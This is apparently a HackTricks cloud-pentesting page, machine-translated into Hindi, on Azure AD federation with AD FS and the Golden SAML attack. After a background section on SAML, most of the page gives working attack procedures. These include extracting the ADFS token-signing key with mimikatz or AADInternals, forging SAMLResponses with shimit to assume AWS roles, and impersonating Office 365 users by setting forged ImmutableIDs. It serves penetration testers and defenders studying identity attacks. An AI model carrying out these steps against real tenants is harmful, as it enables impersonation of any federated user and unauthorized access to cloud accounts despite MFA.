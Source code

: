 # Az - Federation

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)**Federation** एक **डोमेन** का संग्रह है जिसने **विश्वास** स्थापित किया है। विश्वास का स्तर भिन्न हो सकता है, लेकिन आमतौर पर इसमें **प्रमाणीकरण** शामिल होता है और लगभग हमेशा **अधिकार** शामिल होता है। एक सामान्य संघ में **संस्थाओं की संख्या** शामिल हो सकती है जिन्होंने **साझा पहुंच** के लिए **विश्वास** स्थापित किया है।

आप अपने **ऑन-प्रिमाइसेस** वातावरण को **Azure AD** के साथ **संघ** कर सकते हैं और इस संघ का उपयोग प्रमाणीकरण और अधिकार के लिए कर सकते हैं। यह साइन-इन विधि सुनिश्चित करती है कि सभी उपयोगकर्ता **प्रमाणीकरण ऑन-प्रिमाइसेस** पर होता है। यह विधि प्रशासकों को अधिक कठोर स्तरों के पहुंच नियंत्रण को लागू करने की अनुमति देती है। **AD FS** और PingFederate के साथ संघ उपलब्ध है।

<figure><img src="../../../../images/image (154).png" alt=""><figcaption></figcaption></figure>

बुनियादी रूप से, संघ में सभी **प्रमाणीकरण** **ऑन-प्रिम** वातावरण में होता है और उपयोगकर्ता सभी विश्वसनीय वातावरणों में SSO का अनुभव करता है। इसलिए, उपयोगकर्ता अपने **ऑन-प्रिम क्रेडेंशियल्स** का उपयोग करके **क्लाउड** अनुप्रयोगों तक **पहुँच** कर सकते हैं।

**सिक्योरिटी असेर्शन मार्कअप लैंग्वेज (SAML)** का उपयोग सभी प्रमाणीकरण और अधिकार **जानकारी** के **अदला-बदली** के लिए किया जाता है।

किसी भी संघ सेटअप में तीन पक्ष होते हैं:

- उपयोगकर्ता या क्लाइंट
- पहचान प्रदाता (IdP)
- सेवा प्रदाता (SP)

(Images from https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

<figure><img src="../../../../images/image (121).png" alt=""><figcaption></figcaption></figure>

1. प्रारंभ में, एक अनुप्रयोग (सेवा प्रदाता या SP, जैसे AWS कंसोल या vSphere वेब क्लाइंट) का उपयोगकर्ता द्वारा उपयोग किया जाता है। यह कदम बायपास किया जा सकता है, जिससे क्लाइंट सीधे IdP (पहचान प्रदाता) पर जा सकता है, जो विशिष्ट कार्यान्वयन पर निर्भर करता है।
2. इसके बाद, SP उपयोगकर्ता प्रमाणीकरण के लिए उपयुक्त IdP (जैसे, AD FS, Okta) की पहचान करता है। फिर यह एक SAML (सिक्योरिटी असेर्शन मार्कअप लैंग्वेज) AuthnRequest तैयार करता है और क्लाइंट को चुने हुए IdP पर पुनः मार्गदर्शित करता है।
3. IdP आगे बढ़ता है, उपयोगकर्ता को प्रमाणीकरण करता है। प्रमाणीकरण के बाद, IdP द्वारा एक SAMLResponse तैयार किया जाता है और उपयोगकर्ता के माध्यम से SP को अग्रेषित किया जाता है।
4. अंततः, SP SAMLResponse का मूल्यांकन करता है। यदि सफलतापूर्वक मान्य किया गया, जो IdP के साथ विश्वास संबंध को इंगित करता है, तो उपयोगकर्ता को पहुंच दी जाती है। यह लॉगिन प्रक्रिया के पूर्ण होने का संकेत है, जिससे उपयोगकर्ता सेवा का उपयोग कर सकता है।

**यदि आप SAML प्रमाणीकरण और सामान्य हमलों के बारे में अधिक जानना चाहते हैं तो जाएं:**

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/saml-attacks/index.html
{{#endref}}

## Pivoting

- AD FS एक क्लेम-आधारित पहचान मॉडल है।
- "..claims बस उपयोगकर्ताओं के बारे में किए गए बयानों (उदाहरण के लिए, नाम, पहचान, समूह) हैं, जो मुख्य रूप से इंटरनेट पर कहीं भी क्लेम-आधारित अनुप्रयोगों तक पहुंच को अधिकृत करने के लिए उपयोग किए जाते हैं।"
- एक उपयोगकर्ता के लिए क्लेम SAML टोकनों के अंदर लिखे जाते हैं और फिर IdP द्वारा गोपनीयता प्रदान करने के लिए हस्ताक्षरित होते हैं।
- एक उपयोगकर्ता को ImmutableID द्वारा पहचाना जाता है। यह वैश्विक रूप से अद्वितीय है और Azure AD में संग्रहीत है।
- ImmutableID उपयोगकर्ता के लिए ऑन-प्रिम में ms-DS-ConsistencyGuid पर संग्रहीत होता है और/या उपयोगकर्ता के GUID से निकाला जा सकता है।
- अधिक जानकारी [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims) में है।

**गोल्डन SAML हमला:**

- ADFS में, SAML Response को एक टोकन-हस्ताक्षर प्रमाणपत्र द्वारा हस्ताक्षरित किया जाता है।
- यदि प्रमाणपत्र से समझौता किया जाता है, तो Azure AD में किसी भी उपयोगकर्ता के रूप में प्रमाणीकरण करना संभव है जो Azure AD के साथ समन्वयित है!
- हमारे PTA दुरुपयोग की तरह, किसी उपयोगकर्ता के लिए पासवर्ड परिवर्तन या MFA का कोई प्रभाव नहीं होगा क्योंकि हम प्रमाणीकरण प्रतिक्रिया को जाली बना रहे हैं।
- प्रमाणपत्र को DA विशेषाधिकार के साथ AD FS सर्वर से निकाला जा सकता है और फिर इसे किसी भी इंटरनेट से जुड़े मशीन से उपयोग किया जा सकता है।
- अधिक जानकारी [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps) में है।

### गोल्डन SAML

एक **पहचान प्रदाता (IdP)** द्वारा उपयोगकर्ता साइन-इन को अधिकृत करने के लिए **SAMLResponse** उत्पन्न करने की प्रक्रिया महत्वपूर्ण है। IdP के विशिष्ट कार्यान्वयन के आधार पर, **प्रतिक्रिया** को **हस्ताक्षरित** या **एन्क्रिप्टेड** किया जा सकता है **IdP की निजी कुंजी** का उपयोग करके। यह प्रक्रिया **सेवा प्रदाता (SP)** को SAMLResponse की प्रामाणिकता की पुष्टि करने की अनुमति देती है, यह सुनिश्चित करते हुए कि यह वास्तव में एक विश्वसनीय IdP द्वारा जारी किया गया था।

[गोल्डन टिकट हमले](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html#golden-ticket) के साथ एक समानांतर खींचा जा सकता है, जहां उपयोगकर्ता की पहचान और अनुमतियों (गोल्डन टिकट के लिए KRBTGT, गोल्डन SAML के लिए टोकन-हस्ताक्षर निजी कुंजी) को **प्रमाणीकरण वस्तु** (TGT या SAMLResponse) को जाली बनाने के लिए हेरफेर किया जा सकता है। यह किसी भी उपयोगकर्ता का अनुकरण करने की अनुमति देता है, SP तक अनधिकृत पहुंच प्रदान करता है।

गोल्डन SAML कुछ लाभ प्रदान करते हैं:

- इन्हें **दूरस्थ रूप से** बनाया जा सकता है, बिना डोमेन या संघ का हिस्सा बने।
- ये **दो-कारक प्रमाणीकरण (2FA)** सक्षम होने पर भी प्रभावी रहते हैं।
- टोकन-हस्ताक्षर **निजी कुंजी स्वचालित रूप से नवीनीकरण नहीं करती**।
- **किसी उपयोगकर्ता का पासवर्ड बदलने से पहले से उत्पन्न SAML अमान्य नहीं होता**।

#### AWS + AD FS + गोल्डन SAML

[एक्टिव डायरेक्टरी फेडरेशन सर्विसेज (AD FS)](<https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402(v=msdn.10)>) एक Microsoft सेवा है जो विश्वसनीय व्यापार भागीदारों (संघ) के बीच **पहचान जानकारी के सुरक्षित आदान-प्रदान** की सुविधा प्रदान करती है। यह मूल रूप से एक डोमेन सेवा को संघ के भीतर अन्य सेवा प्रदाताओं के साथ उपयोगकर्ता पहचान साझा करने की अनुमति देती है।

AWS द्वारा समझौता किए गए डोमेन (एक संघ में) पर भरोसा करने के साथ, इस भेद्यता का उपयोग संभावित रूप से **AWS वातावरण में किसी भी अनुमतियों को प्राप्त करने** के लिए किया जा सकता है। हमले के लिए **SAML वस्तुओं पर हस्ताक्षर करने के लिए उपयोग की जाने वाली निजी कुंजी** की आवश्यकता होती है, जैसे कि गोल्डन टिकट हमले में KRBTGT की आवश्यकता होती है। AD FS उपयोगकर्ता खाते तक पहुंच इस निजी कुंजी को प्राप्त करने के लिए पर्याप्त है।

गोल्डन SAML हमले को निष्पादित करने के लिए आवश्यकताएँ हैं:

- **टोकन-हस्ताक्षर निजी कुंजी**
- **IdP सार्वजनिक प्रमाणपत्र**
- **IdP नाम**
- **भूमिका नाम (धारण करने के लिए भूमिका)**
- डोमेन\उपयोगकर्ता नाम
- AWS में भूमिका सत्र नाम
- अमेज़न खाता आईडी

_केवल बोल्ड में दिए गए आइटम अनिवार्य हैं। अन्य को इच्छानुसार भरा जा सकता है।_

**निजी कुंजी** प्राप्त करने के लिए, **AD FS उपयोगकर्ता खाते** तक पहुंच आवश्यक है। वहां से, निजी कुंजी को [mimikatz](https://github.com/gentilkiwi/mimikatz) जैसे उपकरणों का उपयोग करके **व्यक्तिगत स्टोर से निर्यात** किया जा सकता है। अन्य आवश्यक जानकारी एकत्र करने के लिए, आप Microsoft.Adfs.Powershell स्नैपिन का उपयोग कर सकते हैं, यह सुनिश्चित करते हुए कि आप ADFS उपयोगकर्ता के रूप में लॉग इन हैं:
```bash
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```
सभी जानकारी के साथ, आप [**shimit**](https://github.com/cyberark/shimit)** का उपयोग करके उस उपयोगकर्ता के रूप में एक मान्य SAMLResponse को भूलना संभव है जिसे आप अनुकरण करना चाहते हैं:**
```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
<figure><img src="../../../../images/image (128).png" alt=""><figcaption></figcaption></figure>

### ऑन-प्रेम -> क्लाउड
```bash
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
यह भी संभव है कि केवल क्लाउड उपयोगकर्ताओं का ImmutableID बनाया जाए और उनकी नकल की जाए।
```bash
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```
## संदर्भ

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
- [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

{{#include ../../../../banners/hacktricks-training.md}}

